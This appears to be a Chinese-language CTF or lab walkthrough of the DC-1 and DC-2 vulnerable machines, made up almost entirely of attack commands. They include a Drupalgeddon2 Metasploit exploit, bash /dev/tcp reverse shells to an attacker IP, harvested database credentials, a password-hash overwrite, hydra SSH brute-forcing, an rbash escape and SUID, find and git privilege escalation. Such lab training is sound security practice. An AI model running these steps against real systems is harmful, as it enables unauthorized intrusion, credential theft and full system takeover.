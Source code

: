 #### DC1

##### 信息搜集

>       > **namp**
>       >
>       > nmap -sP 192.168.64.0/24	#扫描主机
>       >
>       > nmap -F 192.168.64.128		#扫描目标主机开放的常用端口



##### MFS

>       > search drupal
>       >
>       > use exploit/unix/webapp/drupal_drupalgeddon2	#选择模块
>       >
>       > set payload php/meterpreter/reverse_tcp	#设置攻击载荷
>       >
>       > set RHOSTS 192.168.64.128	#目标主机
>       >
>       > set LHOST 192.168.64.5		#本地主机
>       >
>       > exploit

##### flag2

> cat sites/default/settings.php 	#寻找网站配置信息
>
> ```
> 'database' => 'drupaldb',
> 
> 'username' => 'dbuser',
> 
> 'password' => 'R0ck3t',
> 
> 'host' => 'localhost',
> ```

##### shell

> shell #进入交互界面
>
> mysql -udbuser -pR0ck3t	#登录数据库失败
>
> **考虑反弹shell**
>
> > nc -lvvp 1234	#**本地监听1234端口**
> >
> > bash -i >& /dev/tcp/192.168.64.5 1234 0>&1	#目标主机把**bash **重定向192.168.64.5的1234端口 #**失败**
> >
> > **借助python 反弹**
> >
> > python -c 'import pty;pty.spawn("/bin/bash")'	#目标主机运行
> >
> > bash -i >& /dev/tcp/192.168.1.150/2333 0>&1	#目标主机运行，反弹成功
> >
> > www-data@DC-1:/var/www/sites/default$ mysql -udbuser -pR0ck3t	#登录数据库成功

##### mysql

> show databases;
>
> use drupladb;
>
> select \*  from users\;
>
> **退出数据库生成替换的密码**
>
> > ![image-20210416162221426](C:\Users\86184\AppData\Roaming\Typora\typora-user-images\image-20210416162221426.png) 
> >
> > **php scripts/password-hash.sh admin**	生成hash密码
> >
> > ​		password: admin         hash: $S$D9/EB/sN8TEfNaCZ74SqGVO0xxuOe/8fZI3LCOMVXSOqiqfNDwDt
>
> **数据库替换admin原有的密码**
>
> >  update users set pass="$S$D9/EB/sN8TEfNaCZ74SqGVO0xxuOe/8fZI3LCOMVXSOqiqfNDwDt" where uid=1;

##### flag4

> **进行密码爆破**
>
> >  hydra -l flag4 -P /usr/share/john/password.lst 192.168.64.128 ssh -vV -f -o hydra.ssh
>
> **登录**
>
> > ssh flag4@192.168.64.128
> >
> > 密码:orange

##### 提权

> find / -perm -4000 2>/dev/null	#是否有一些命令具有SUID 标志
>
> **利用系统内核提权**
>
> > mkdir GGG
> >
> > find GGG -exec "whoami" \;
> >
> > find GGG -exec "/bin/sh" \;

##### 解除账户登录次数限制

> **数据库中运行**
>
> truncate flood;

#### DC2

##### 信息搜集

> >       > **namp**
> >       >
> >       > > nmap -sP 192.168.64.0/24	#扫描主机
> >       > >
> >       > > nmap -F 192.168.64.132		#扫描目标主机开放的常用端口
> >       >
> >       > #因为对目标网站进行了重定向所有添加hosts文件
> >       >
> >       > vim /etc/hosts		192.168.64.132 	dc-2
> >       >
> >       > **cewl**	##对网站页面进行信息收集并生成字典
> >       >
> >       > >  cewl dc-2 >pwd.dic
> >       >
> >       > **目录扫描**
> >       >
> >       > > **MSF**
> >       > >
> >       > > > use auxiliary/scanner/http/dir_scanner
> >       > > >
> >       > > > set RHOSTS 192.168.1.162
> >       > > >
> >       > > > set THREADS 50
> >       > > >
> >       > > > exploit
> >       > >
> >       > > **御剑**
> >       > >
> >       > > > http://192.168.64.132/
> >       > > >
> >       > > > 线程20
> >       >
> >       > **wpscan工具**
> >       >
> >       > > 因为网站的cms是wordpress,wpscan是专门扫描wordpress
> >       > >
> >       > > wpscan --update	#更新
> >       > >
> >       > > wpscan --url dc-2 -e u	#扫描这个网站的用户
> >       > >
> >       > > vim user.dic	#admin jerryy tom
> >       > >
> >       > > wpscan --url dc-2 -U user.dic -P pwd.dic	#进行爆破

##### 爆破

> hydra -L user.dic -P pwd.dic ssh://192.168.1.162 -s 7744 -o hydra.ssh -vV
>
> ssh tom@192.168.1.162 -p 7744	#登录

##### Rbash绕过

> BASH_CMDS[a]=/bin/sh;a
>
> /bin/bash
>
> export PATH=$PATH:/bin/
>
> export PATH=$PATH:/usr/bin

##### flag4

> su jerry
>
> sudo -l

##### git提权

> sudo git -p --help -a
>
> !/bin/bash







